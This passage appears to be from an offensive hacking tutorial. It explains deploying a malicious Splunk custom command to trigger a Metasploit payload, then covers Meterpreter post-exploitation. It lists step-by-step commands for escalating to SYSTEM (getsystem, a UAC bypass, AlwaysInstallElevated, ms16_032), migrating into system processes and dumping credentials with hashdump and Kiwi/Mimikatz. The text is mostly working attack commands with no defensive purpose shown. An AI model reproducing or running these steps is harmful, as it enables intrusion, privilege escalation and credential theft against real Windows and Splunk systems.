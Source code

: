 ```python
if __name__ == "__main__":
    main()
```

3. In `commands.conf`:
```
[msf_trigger]
filename = msf_trigger.py
chunked = false
enableheader = false
```

4. Deploy to Splunk and trigger with:
```
| msf_trigger
```

## Step 4: Post-Exploitation and Privilege Escalation

Once you have a Meterpreter session, you can proceed with privilege escalation and hash extraction.

### Privilege Escalation to SYSTEM (Windows)

1. Within your active Meterpreter session:
```
# Check current privileges
getuid

# If not SYSTEM already, attempt to elevate
getsystem

# If getsystem fails, try these alternatives
run post/windows/escalate/bypassuac  # if UAC is enabled
use exploit/windows/local/always_install_elevated  # if AlwaysInstallElevated is enabled
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc  # common Windows privilege escalation
```

2. For newer Windows systems, you might need to migrate to a more stable process:
```
# List processes
ps

# Migrate to a SYSTEM process (like winlogon.exe or services.exe)
migrate PID_NUMBER
```

### Extracting Password Hashes (Windows)

1. Once you have SYSTEM privileges:
```
# Dump local SAM hashes
hashdump

# For a more comprehensive approach
run post/windows/gather/smart_hashdump

# Load Kiwi (Mimikatz) for advanced credential harvesting
load kiwi
creds_all
```
